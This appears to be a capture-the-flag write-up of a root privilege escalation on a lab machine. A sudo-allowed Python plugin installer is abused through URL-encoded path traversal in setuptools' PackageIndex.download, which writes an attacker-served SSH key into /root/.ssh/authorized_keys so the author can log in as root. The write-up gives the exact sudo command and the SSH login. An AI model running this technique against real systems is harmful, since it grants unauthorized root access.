

Bingo!! we got the access.

i ran `sudo -l` and found below sudo permission we are having



let’s read the python script

```powershell
#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False

def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()
```

after analyzing above script, i found below vulnerable code

```powershell
def install_validator_plugin(plugin_url):
    # ... 
    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
```

1. **URL Validation Bypass**: The `is_valid_url()` function only checks that the URL starts with `http://` or `https://` and has a netloc (domain). It doesn't validate the path portion of the URL.
2. **URL Decoding After Validation**: The validation happens on the raw URL string, but `PackageIndex.download()` **URL-decodes** the path before using it. This means:
    - Validation sees: `http://10.10.15.140:8000/%2Froot%2F.ssh%2Fauthorized_keys`
    - After decoding: `http://10.10.15.140:8000//root/.ssh/authorized_keys`
3. **Path Traversal in Download Function**: The `PackageIndex.download()` method takes the decoded URL path and uses it to determine where to save the file. It doesn't sanitize path traversal sequences like `..` or absolute paths.

so on our kali machine what we did, first created the ssh key for root user inside the root user and from `/` directory ran the python web server



rename the public file

```powershell
mv id_ed25519.pub authorized_keys
```

run python3 web server 



and then from target machine as steve

```powershell
sudo /usr/bin/python3 /opt/font-tools/install_validator.py "http://10.10.15.140:8000/%2Froot%2F.ssh%2Fauthorized_keys"
```



now do SSH using your root user’s private key

```powershell
ssh -i id_ed25519 root@10.129.9.244
```

